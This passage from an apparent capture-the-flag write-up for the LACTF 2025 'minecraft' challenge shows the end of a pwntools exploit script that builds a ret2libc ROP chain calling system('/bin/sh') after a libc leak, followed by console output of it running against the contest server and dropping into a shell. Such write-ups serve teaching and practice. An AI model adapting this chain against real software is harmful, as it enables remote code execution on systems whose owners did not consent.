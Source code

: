 ```py

    slog('Leak', leak)
    slog('Libc base', libc.address)

def stage2():

    rop = ROP(libc)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

    payload = flat({

        offset: [
            pop_rdi,
            next(libc.search(b'/bin/sh\0')),
            pop_rdi + 1,
            libc.sym.system
        ]

    })

    choice(1)
    sla(b'name:\n', payload)
    choice(1)
    choice(2)

def exploit():

    global offset

    offset = 72

    stage1()
    stage2()

    interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/LACTF2025/minecraft
$ ./xpl.py REMOTE chall.lac.tf 31137
[*] '/home/alter/CTFs/2025/LACTF2025/minecraft/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to chall.lac.tf on port 31137: Done
/home/alter/custom_libs/pwncus/pwncus.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  sl = lambda data: __main__.p.sendline(data)
[+] Leak: 0x7a496595e740
[+] Libc base: 0x7a4965961000
[*] Loaded 197 cached gadgets for '/home/alter/CTFs/2025/LACTF2025/minecraft/libc.so.6'
/home/alter/custom_libs/pwncus/pwncus.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  sl = lambda data: __main__.p.sendline(data)
[*] Switching to interactive mode
Select game mode
```